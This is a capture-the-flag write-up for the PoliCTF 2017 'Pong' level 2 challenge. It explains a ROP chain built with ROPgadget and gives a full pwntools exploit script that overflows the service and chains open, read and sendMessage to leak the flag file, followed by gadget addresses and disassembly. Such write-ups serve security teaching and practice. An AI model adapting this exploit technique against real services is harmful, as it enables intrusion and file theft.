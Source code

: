 ```yaml
---
layout: post
title:  "PoliCTF 2017 - Pong(lvl2)"
date:   2017-07-09 21:17
categories: CTF
tags: [PoliCTF2017]
categories: [Pwn]
author: jbz
---
```

> Ready for another match? :P
> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong2.tgz)

It is basically the same binary as [level1](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true), but without the `secret` function. 

This time we did ROP to achieve what the removed function was offering. 

We used ROPgadget to lookup for meaningful gadgets to achieve our intent. 

We found gadgets to achieve a call to `open` then `read` (both of them had a PLT entry) and finally we used `sendMessage` to have the flag content printed back to the client socket.

 

```

from pwn import *
import sys

def start_game(level, local=None):
    log.info("local: %s" % local)
    if str(local) == str("local"):
        p = remote('localhost', 31337)
    else:
        p = remote('pong.chall.polictf.it', 31337)
    p.sendline(level)
    p.recvuntil("OK ")
    s = p.recvline()
    c_port = int(s.strip())
    return c_port



def play_pong(port, local=None):
    print "connecting to pong UDP server at %d" % port
    if str(local) == str('local'):
        p = remote('localhost', port, typ="udp")
    else:
        p = remote('pong.chall.polictf.it', port, typ="udp")
    return p



def send_to_pong(p, pay, stop=None): 
    p.sendline(pay)
    s = None
    if stop:
        s = p.recv(timeout=5)
    return s



def prepare():
    port = start_game("Lv2", sys.argv[1])
    p = play_pong(port, sys.argv[1])
    return p



def payloadgen():
    # read(open("./flag2", O_RDONLY), buf, 256)
    # sendMessage(buf)
    pop_rdi = p64(0x406938) # pop rdi
    pop_rsi = p64(0x404717) # pod rsi 
    pop_rdx = p64(0x405c65) # pop rdx ; pop ; rsp+8 ; ret
    mov_rdi = p64(0x40df60) # 0x40df60 mov qword ptr [rdi], rdx ; ret
    buf = p64(0x61F560) # buffer (field of zeros)
    RDONLY = p64(0x0)
    
    pay = "1" + "|" + "2" * 22
    pay += pop_rdi
    pay += buf

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash
    
    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += mov_rdi
    pay += pop_rsi
    pay += RDONLY

    #0x0000000000416add : pop rax ; pop rbx ; pop rbp ; pop r12 ; ret
    pay += p64(0x0000000000416add)
    pay += p64(elf.plt['open'])
    pay += p64(0x0)
    pay += p64(0x0)
    pay += p64(0x0)

    #0x0000000000402e48 : call rax
    pay += p64(0x0000000000402e48)
    pay += p64(0x0)

    # mov rdi, rax
    pay += pop_rdi
    pay += p64(0x9)
    pay += pop_rsi
    pay += buf
    pay += pop_rdx
    pay += p64(0x100) # len
    pay += p64(0x100)
    pay += p64(0x100)
    pay += p64(elf.plt['read'])
    
    pay += pop_rdi
    pay += buf
    pay += p64(0x404526) # sendMessage
    return pay


elf = ELF('./level2/level2')
p = prepare()
raw_input("stop")
print("Sending reset")

pay = "-1|2"
send_to_pong(p, pay, False)
pay = payloadgen()
for x in range(1):
    log.info("SENDING FATAL PONG")
    send_to_pong(p, pay, False)

for x in range(10):
    print(p.recv())


'''

0x0000000000406938 : pop rdi ; ret

0x0000000000406936 : pop rsi ; pop r15 ; ret

0x0000000000404717 : pop rsi ; ret

0x0000000000405c65 : pop rdx ; pop rcx ; add rsp, 8 ; ret

0x0000000000407546 : push rax ; ret

00000000004036a0 <open@plt>:

0000000000403290 <read@plt>:

.text:0000000000404526 sendMessage     proc near           ; CODE XREF: broadcast+69p

.text:0000000000404526

.text:0000000000404526 mex         = qword ptr -18h

.text:0000000000404526

.text:0000000000404526         push    rbp

.text:0000000000404527         mov     rbp, rsp

.text:000000000040452A         push    rbx

.text:000000000040452B         sub     rsp, 18h

.text:000000000040452F         mov     [rbp+mex], rdi



'''

```
